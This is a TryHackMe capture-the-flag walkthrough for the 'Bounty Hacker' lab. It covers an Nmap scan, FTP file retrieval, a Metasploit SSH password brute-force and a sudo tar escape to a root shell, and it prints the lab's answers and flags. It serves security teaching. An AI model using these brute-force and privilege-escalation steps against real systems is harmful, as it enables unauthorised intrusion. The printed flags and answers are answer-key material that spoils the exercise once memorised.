








# Bounty Hacker

> Platform: TryHackMe
>
> Created by: Sevuhl
>
> Difficulty: Easy

## Reconnaisance

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA bountyhacker
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:



Then, we know that there is FTP Server which can be connect to with username as **"ftp"**.
```bash
$ ftp ftp@<TARGET-IP>
```



However, we cannot list the file that are in the FTP server as it is in **Passive mode**. So, we need to try **switch to Active mode** by using the command:
```bash
ftp> passive off
```



Now, let's try to retrieve the files by using the **"get"** command:
```bash
ftp> get task.txt

ftp> get locks.txt
```



So now, let's try to read the files in our terminal.



<details>
<summary><b>Question: Who wrote the task list?</b></summary>
<b>Answer: lin</b>
</details><br>

<details>
<summary><b>Question: What service can you bruteforce with the text file found?</b></summary>
<b>Answer: ssh</b>
</details><br>

## Exploitation

Then, try to bruteforce SSH with the **password that we have retrieved** using **"lin"** as the username. For this, I used Metasploit to ease my process with **verbose mode on**.
```bash
$ msfconsole

msf6 > search aux ssh

msf6 > use auxiliary/scanner/ssh/ssh_login

msf6 auxiliary(scanner/ssh/ssh_login) > options

msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS <TARGET-IP>
RHOSTS => <TARGET-IP>

msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE '/PATH/TO/locks.txt'
PASS_FILE => /PATH/TO/locks.txt

msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME lin
USERNAME => lin

msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
```

Now, let's run the scanner.



<details>
<summary><b>Question: What is the users password?</b></summary>
<b>Answer: RedDr4gonSynd1cat3</b>
</details><br>

Let's connect through SSH using the credentials.



Nice, now we cat get the user.txt:
```bash
$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```

## 🏳️Flag: user.txt
>**THM{CR1M3_SyNd1C4T3}**

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to get to root.

First we try to check with the sudo permission first:
```bash
$ sudo -l
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Now, let's check [GTFObins - tar](https://gtfobins.github.io/gtfobins/tar/), we can get to root by running the command from the **"Sudo section"**.
```bash
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

$ whoami
root
```

Now, we need to read the **"root.txt"** file to complete this machine.



## 🏳️Flag: root.txt
>**THM{80UN7Y_h4cK3r}**